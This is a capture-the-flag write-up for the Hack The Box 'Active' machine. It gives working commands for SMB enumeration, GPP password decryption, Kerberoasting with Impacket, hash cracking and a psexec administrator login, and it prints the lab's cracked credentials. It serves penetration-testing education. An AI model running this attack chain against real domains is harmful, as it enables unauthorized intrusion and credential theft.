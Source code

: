 # HTB - Active

##### Ip: 10.10.10.100
##### Hostname: active.htb
##### Rating: Easy

------------------------------------------------

![active_card](./assets/active_card.png)

## Enumeration

As always, lets kick things off with an Nmap scan covering all TCP ports. Because I'm not worried about traffic or the 'noise' I'm making, I'm adding the `--min-rate 10000` attribute to speed things along:

```text
sudo nmap -p-  --min-rate 10000 10.10.10.100
```

As usual with Windows AD boxes, there's quite a few ports open here, with all the tell-tell signs of Windows box (All those RPC ports), and an AD Domain Controller specifically (ports 53,88,389, etc). Here, I am scanning the discovered open ports from our `-p-` scan, and tacking on the `-sC` and `-sV` flags to enumerate versions and run common scripts against the ports:

```text
┌──(ryan㉿kali)-[~/HTB/Active]
└─$ sudo nmap -sC -sV -T4 10.10.10.100 -p 53,88,135,139,389,445,464,593,636,3268,3269,5722,9389,47001,49152,49153,49154,49155,49157,49158,49165,49168,49174
Starting Nmap 7.93 ( https://nmap.org ) at 2023-04-21 13:34 CDT
Nmap scan report for 10.10.10.100
Host is up (0.072s latency).

PORT      STATE SERVICE       VERSION
53/tcp    open  domain        Microsoft DNS 6.1.7601 (1DB15D39) (Windows Server 2008 R2 SP1)
| dns-nsid: 
|_  bind.version: Microsoft DNS 6.1.7601 (1DB15D39)
88/tcp    open  kerberos-sec  Microsoft Windows Kerberos (server time: 2023-04-21 18:34:13Z)
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp   open  ldap          Microsoft Windows Active Directory LDAP (Domain: active.htb, Site: Default-First-Site-Name)
445/tcp   open  microsoft-ds?
464/tcp   open  kpasswd5?
593/tcp   open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp   open  tcpwrapped
3268/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: active.htb, Site: Default-First-Site-Name)
3269/tcp  open  tcpwrapped
5722/tcp  open  msrpc         Microsoft Windows RPC
9389/tcp  open  mc-nmf        .NET Message Framing
47001/tcp open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
49152/tcp open  msrpc         Microsoft Windows RPC
49153/tcp open  msrpc         Microsoft Windows RPC
49154/tcp open  msrpc         Microsoft Windows RPC
49155/tcp open  msrpc         Microsoft Windows RPC
49157/tcp open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
49158/tcp open  msrpc         Microsoft Windows RPC
49165/tcp open  msrpc         Microsoft Windows RPC
49168/tcp open  msrpc         Microsoft Windows RPC
49174/tcp open  msrpc         Microsoft Windows RPC
Service Info: Host: DC; OS: Windows; CPE: cpe:/o:microsoft:windows_server_2008:r2:sp1, cpe:/o:microsoft:windows

Host script results:
| smb2-time: 
|   date: 2023-04-21T18:35:09
|_  start_date: 2023-04-21T01:33:39
| smb2-security-mode: 
|   210: 
|_    Message signing enabled and required
|_clock-skew: -2s

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 71.01 seconds
```
Because there doesn't appear to be any http or FTP ports open, let's begin by enumerating the SMB ports (139/445) as well as the LDAP port, to try and find something juicy.

But before we do that, let's go ahead and add active.htb to the /etc/hosts file:

`10.10.10.100  active.htb`

### SMB Enumeration

Lately, my favorite way to enumerate shares (and my ability to read them) is with CrackMapExec. CME is an extremely powerful tool with so many use cases, and is one of my go-to tools when working with active directory (Here is a great cheat sheet/wiki on the tool: https://wiki.porchetta.industries/other-gitbook. In this case I tried enumerating shares with user 'guest' and a blank password (this didn't work, the Guest user had been smartly disabled), as well as a blank user and blank pw, which worked!

/home/ryan/HTB/Active/active_card.png

Ok cool, so looks like I have read access to the Replication share; let's check that out. For this I'm reverting back to the old-school smbclient tool to see what we can find. (CME has some cool ways to further check shares using the spider function, but I find smbclient easier for cases like this)

Running: `smbclient //10.10.10.100/replication` and simply hitting enter in lieu of a password gets me into the share. After poking around a bit I found an interesting file called Groups.xml, and used `get Groups.xml` to pull the file back to my machine. If on the fly, you can always use `more Groups.xml` which essentially just lets you read the file stored in temporary memory in a vim-like setting, but I prefer to store files like this locally, in case I need to revisit them.

This file proves to be super interesting!

/home/ryan/HTB/Active/gpp_pw.png

Here we have what appear to be a username SVC_TGS as well as a password. These Groups.xml files can be a goldmine for penetration testers because they can store extremely sensitive data (like PWs) as a Group Policy Preference (GPP) file, which can be decrypted using various tools. 

### Decrypting the PW Hash

Armed with this knowledge we can use the built in Kali tool gpp-decrypt:

```text
gpp-decrypt edBSHOwhZLTjt/QS9FeIcJ83mjWA98gw9guKOhJOdcqh+ZGMeXOsQbCpZ3xUjTLfCuNH8pG5aSVYdYw/NglVmQ
```
/home/ryan/HTB/Active/gpp_decrypt.png

Nice! We were very easily able to crack this password! Seems we may know have some credentials, 
`SVC_TGS:GPPstillStandingStrong2k18`, lets see what we can do with them. 

### Kerberoasting

Going with a hunch based on the username (SVC_TGS or ticket-granting service), I'm going to try Kerberoasting first, and more specifically, because this is a machine account (SVC) I'm going to take a look at SPNs.

Using Impacket's tool GetUserSPNs I can run the following:

`impacket-GetUserSPNs -dc-ip 10.10.10.100 -request active.htb/SVC_TGS`

for an easy win at kerberoasting! Furthermore, this appears to be the administrator hash; we hopefully we can use this cracked credential to login to the target with admin access. 

/home/ryan/HTB/Active/kerberoast.png

### Cracking the Hash With JTR

From here I will simply copy the hash to a text file named kerb_hash, and let John The Ripper do the work for me to crack it:

Most excellent! John was able to crack the hash quite quickly:

/home/ryan/HTB/Active/jtr_crack.png

### Logging In

So now let's try to login with our newly found admin credentials of administrator:Ticketmaster1968.

Once again, Impacket to the rescue; let's try using psexec to login:

```text
impacket-psexec active.htb/administrator:Ticketmaster1968@10.10.10.100
```

And since I am logging in as administrator I can grab both flags on the SVC_TGS and Administrator desktops respectively.

/home/ryan/HTB/Active/user_txt.png

/home/ryan/HTB/Active/root_txt.png

And that's that! This was a great beginner friendly Active Directory box illustrating some key concepts needed to successfully enumerate and attack enterprise environments. 

### Something Extra

I recently found out about this and found it super interesting, so thought I would share here as well- Recall back to screen shot after logging in as administrator, where I ran the `whoami` command and got a response back as `nt authority\system`.

Look what happens when I login using the very same credentials using a tool like wmiexec:

/home/ryan/HTB/Active/wmiexec_login.png

Running `whoami` with this tool only lists me as active/administrator, whereas psexec will auto-elevate privileges to that of nt/system. For all intents and purposes my privileges are the same here, but for those of us that want to document the highest level of privileges (say for an examination, or to include in a report), psexec offers an easy win in that regard. Likely superficial, but interesting none-the-less. 

### Key Takeaways

- SMB can often contain a plethora of 'low hanging fruit' like we found here today. I was able to go from anonymous access to an SMB share to fully compromising the machine (or domain in this AD example) without anything too tricky, technically speaking. Sensitive information like credentials being stored somewhere like an open share like this is obviously not a good idea.

- Kerberoasting is an invaluable part of any attacker's arsenal. Learning about a few of the biggest attacks (golden/ silver tickets, SPNs, AS-REPs, etc) will pay dividends later on. 

- Similarly, Impacket and CrackMapExec are about as comprehensive and valuable tools as anyone could hope for when it comes to attacking Active Directory. These are huge tools that offer so much, and I am still only beginning to scratch there surface of what they can offer. Getting to know your tools is important in any line of work, but especially in pentesting; these are two worth getting to know well, in my opinion. 

Thanks for following along!

-Ryan

------------------------------------------------------------------------
